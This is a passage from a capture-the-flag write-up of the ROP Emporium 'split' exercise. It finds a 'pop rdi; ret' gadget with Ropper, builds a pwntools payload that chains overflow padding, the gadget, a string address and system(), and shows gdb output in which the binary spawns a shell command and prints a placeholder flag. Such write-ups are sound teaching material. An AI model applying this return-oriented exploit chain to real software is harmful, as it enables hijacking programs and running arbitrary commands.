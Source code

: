 Here comes the `ROP gadgets` that you may be already be familiar with. To simplify, they are small instruction sequences ending with a `ret` instruction. 

We can look for them with various tools, but I'm going to use [Ropper](https://github.com/sashs/Ropper). But what we're looking for? Basically, we have to get the value into the `RDI`, with limitation of only controlling the stack. Does it ring a bell? Yup, that's `pop rdi` instruction that we have to find. 

```text
[w3ndige@main split]$ ropper --file split --search 'pop rdi; ret;'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi; ret;

[INFO] File: split
0x0000000000400883: pop rdi; ret; 
```

And luckily, we get a gadget!

Now back to the crafting plan. We have to pass an address of the gadget that will pop the next value from the stack into the `RDI` register. So naturally, next address should be address of the string and as we have everything prepared, now we'll add an address of `system()` function.

```text
[w3ndige@main split]$ python2 -c 'from pwn import *;print("A" * 40 + p64(0x0400883) + p64(0x00601060) + p64(0x00400810))' > input
```

Just like that. Now let's execute it. 

```text
gdb-peda$ r < input
Starting program: /home/w3ndige/hacking/rop_emporium/split/split < input
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> [Attaching after process 4400 fork to child process 4404]
[New inferior 2 (process 4404)]
[Detaching after fork from parent process 4400]
[Inferior 1 (process 4400) detached]
process 4404 is executing new program: /usr/bin/bash
process 4404 is executing new program: /usr/bin/cat
ROPE{a_placeholder_32byte_flag!}
[Inferior 2 (process 4404) exited normally]
Warning: not running or target is remote
```

And here we are, another challenge completed.